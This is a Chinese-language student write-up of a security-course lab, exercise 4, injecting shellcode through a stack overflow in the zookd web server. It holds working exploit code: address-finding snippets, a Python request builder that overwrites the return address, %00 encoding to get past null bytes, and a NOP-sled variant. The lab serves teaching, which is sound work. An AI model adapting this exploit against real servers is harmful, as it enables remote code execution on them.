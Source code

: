 #### lab1 exercise 4

exercise2 的栈溢出注入shellcode，执行的程序换了一下，换成没开NX的版本

```bash
./clean-env.sh ./zookd-exstack 8080
```

> 在url_decode函数里，当sp字符串里看到了\x00字符，就会终止向valuie里复制字符串，但是又有把%加两个digit转换为数字的case，因此payload要```.replace("\x00,%00")```再发送。

接下来就是寻找字符串的位置和返回地址的位置，虽然`value`和`envvar`看上去都可以，但是显然value更简单一点，有两种方法：

第一种：反正有源码，直接print出来

```c
printf("value addr : %p\n", &value);
void *stackAddress;
__asm__("movq %%rbp, %0" : "=r" (stackAddress));
stackAddress = (void*)((char*)stackAddress + 8);
printf("Return Address Stack Address: %p\n", stackAddress);
```

第二种：调试，gdb -p $(pgrep zookd-)`，下断点`b http.c:xxx`，查看变量地址`print &value`，拿到shellcode地址，再用rbp+8拿到返回地址（或者info frame）

payload如下：

```python
stack_buffer = 0x7fffffffda50
stack_retaddr = 0x7fffffffdc88

def build_exploit(shellcode):
    req = b"GET / HTTP/1.0\r\n"
    req += b"hack: "
    req += (
        shellcode + b"A" * ((stack_retaddr - stack_buffer) - len(shellcode)) +  p64(stack_buffer)
    ).replace(b"\x00", b'%00')
    req += b"\r\n" 
    req += b"\r\n" # 注意这里额外的一行
    return req
```

在`http_request_headers`的死循环跳出的条件是

```C
        if (buf[0] == '\0')     /* end of headers */
            break;
```

因此想要跳出循环，必须最后要有一个空行！！！！！！！😭😭😭😭😭😭😭😭😭😭😭😭

我在这卡了一下午，一直以为是我的栈地址不对😭😭😭😭😭😭😭😭😭😭😭😭😭😭😭😭

再学习一下大佬的代码：

```python
shellcode = asm('nop') * 4096 + asm(shellcode_text)
payload = (p64(0x7fffffffe000) * 128 + shellcode).replace(b'\x00', b'%00')
req  = b"GET / HTTP/1.0\r\n"
req += b"arttnba3: " + payload + b"\r\n"
req += b"\r\n"
```
